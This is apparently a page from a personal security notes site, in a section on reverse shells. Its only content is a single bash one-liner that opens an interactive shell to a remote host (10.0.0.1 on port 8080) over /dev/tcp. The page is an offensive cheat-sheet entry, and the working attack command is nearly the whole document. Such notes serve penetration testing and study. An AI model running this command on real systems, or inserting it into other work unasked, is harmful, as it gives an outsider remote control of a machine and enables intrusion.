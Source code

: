 ```yaml
---
layout: default
title: bash
parent: Shells / Reverse Shells
grand_parent: security stuff
nav_order: 2
---
```


## Bash 
1. pure bash one-liner reverse shell: 
```bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


---

